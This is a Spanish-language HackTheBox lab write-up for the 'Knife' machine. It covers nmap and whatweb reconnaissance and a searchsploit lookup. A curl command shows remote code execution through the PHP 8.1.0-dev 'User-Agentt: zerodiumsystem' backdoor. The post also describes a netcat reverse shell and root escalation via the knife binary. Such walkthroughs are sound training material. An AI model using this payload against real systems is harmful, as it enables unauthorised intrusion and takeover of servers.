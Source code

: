 ```yaml
---
title: "Knife - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad fácil, para su intrusión me aproveché de una versión vulnerable de PHP/8.1.0-dev, añadiéndole la cabecera 'User-Agentt' seguido de 'zerodiumsystem(<comando>)' se encontró que se puede ganar 'RCE', para ello me entable una reverse Shell por netcat y gane acceso, para la escalada encontré que se podría ejecutar el binario de Knife como usuario root, busque en gtfobins y escale privilegios."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/131350831-4f0940b7-ef0b-42fc-9c75-2e784f1cd62f.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - knife
  - User-Agentt
  - curl
  - searchsploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/131255439-08fd7d17-c594-451b-ba0d-ec561ca1dfa2.jpg">
</p>

Comencé con un escaneo de `Nmap` para detectar puertos abiertos.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sS --min-rate=5000 -n -vvv --open -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:07 EDT
Initiating SYN Stealth Scan at 10:07
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 10:07, 0.41s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.11s latency).
Scanned at 2021-08-29 10:07:20 EDT for 0s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
           Raw packets sent: 1012 (44.528KB) | Rcvd: 1012 (40.488KB)
```

Efectúe otro escaneo para detectar la versión de cada servicio abierto encontrado.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sC -sV -p22,80 10.10.10.242 -oN targeted                       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:09 EDT
Nmap scan report for 10.10.10.242
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```

Vi que corría un servidor web, accedí a él y encontré lo siguiente.

![https://imgur.com/8D6YyB7.png](https://imgur.com/8D6YyB7.png)

Las secciones que habían no eran botones por lo que poco podía hacer, le hice un `whatweb` al servidor web para ver que estaba corriendo.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Encontré que corría `PHP`, eso me llamo la atención, envíe una petición por `GET` y al parecer `whatweb` lo reporta de la cabecera `X-Powered-By`.

![https://imgur.com/2otlnnT.png](https://imgur.com/2otlnnT.png)

Busque si había algún `exploit` de esa versión y encontré uno que te garantizaba ejecución de código arbitrario.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit PHP 8.1.0-dev
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                                                                     | php/webapps/44194.py
cPanel < 11.25 - Cross-Site Request Forgery (Add User PHP Script)                                                           | php/webapps/17330.html
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                         | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                     | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                            | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                       | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                              | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                          | php/webapps/46459.py
FileRun < 2017.09.18 - SQL Injection                                                                                        | php/webapps/42922.py
Fozzcom Shopping < 7.94 / < 8.04 - Multiple Vulnerabilities                                                                 | php/webapps/15571.txt
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)                                                                  | php/remote/40434.rb
IceWarp Mail Server < 11.1.1 - Directory Traversal                                                                          | php/webapps/44587.txt
KACE System Management Appliance (SMA) < 9.0.270 - Multiple Vulnerabilities                                                 | php/webapps/46956.txt
Kaltura < 13.2.0 - Remote Code Execution                                                                                    | php/webapps/43028.py
Kaltura Community Edition < 11.1.0-2 - Multiple Vulnerabilities                                                             | php/webapps/39563.txt
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                       | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                    | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                    | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                         | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                                                                                    | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                       | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                       | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                 | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                           | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                       | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                         | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                | php/webapps/46815.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Lo transferí a mí máquina con el parámetro `-m` de `searchsploit`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit -m php/webapps/49933.py                        
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: HTML document, ASCII text, with CRLF line terminators

Copied to: /home/kali/HTB/Knife/49933.py
```
  
Tras ver lo que hacía por detrás encontré que envía una petición añadiendo una cabecera nueva llamada `User-Agentt` que ejecuta la siguiente sentencia `zerodiumsystem("comando");`
y ganas `RCE`.
  
![https://imgur.com/w3qsvUO.png](https://imgur.com/w3qsvUO.png)
  
Lo hice de manera manual con `curl`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# curl -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('whoami');" 
james
<!DOCTYPE html>
<html lang="en" >

<head>

  <meta charset="UTF-8">
```

Al parecer si funciono, me ejecuto el comando que yo quería y me reporto el "output" en la primera línea del código fuente de la página, ahora solo faltaba ganar acceso al sistema, por ello me entable una `reverse Shell` por `netcat`, para ello use una de `mkfifo`.

![https://imgur.com/ipnNoz2.png](https://imgur.com/ipnNoz2.png)

Y gané acceso a la máquina.

![https://imgur.com/OABTbXS.png](https://imgur.com/OABTbXS.png)

Hice un tratamiento de la `TTY` y encontré que se podía ejecutar el binario `knife` con el usuario `root`.

![https://imgur.com/gwNgZIA.png](https://imgur.com/gwNgZIA.png)

Fui a `gtfobins` y encontré que se podía escalar ejecutando el binario `knife`.

![https://imgur.com/G7sdeOP.png](https://imgur.com/G7sdeOP.png)

Lo ejecute y gane acceso a la máquina como `root` y ya pude visualizar la "flag".

![30OhG9A](https://user-images.githubusercontent.com/69093629/131256003-84afcd54-e826-4192-aabc-af581f4601cb.jpg)


